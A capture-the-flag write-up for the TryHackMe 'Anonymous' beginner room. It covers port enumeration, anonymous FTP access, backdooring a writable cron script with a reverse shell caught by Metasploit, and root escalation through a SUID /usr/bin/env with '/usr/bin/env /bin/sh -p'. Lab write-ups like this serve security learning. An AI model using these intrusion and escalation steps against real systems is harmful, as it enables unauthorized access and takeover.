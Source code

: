 # Anonymous
[TryHackMe room link](https://tryhackme.com/room/anonymous)

# Informations about the room 

> Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

# Open ports

21 vsFTPd 3.0.3 anonymous login

22 OpenSSH 7.6p1

139 samba

445 samba

# Enumeration

Since we have anonymous access enabled in the ftp server we need to take a look at it:

There is a hidden directory called `/scripts`

Inside there are 3 files:

`clean.sh`

```bash
!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`

`to_do.txt`


We can try to mount the ftp share to our machine

`curlftpfs anonymous@10.10.27.64 mount`

We have write access to the script

Since it's probably inside a cronjob we can modify it by adding a reverse shell

Netcat for some reason does not work properly, it drops the shell almost instantly

So i tried to use the metasploit handler

`use exploit/multi/handler`

Set the `LHOST` and `LPORT`

This time the shell it's stable

# Privilege escalation

After enumerating linpeas found a [SUID in /usr/bin/env](https://gtfobins.github.io/gtfobins/env/)

`-rwsr-xr-x 1 root root 35K Jan 18  2018 /usr/bin/env`

`/usr/bin/env /bin/sh -p`

```console
/usr/bin/env /bin/sh -p
# id
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
# cat /root/root.txt
cat /root/root.txt
REDACTED
```

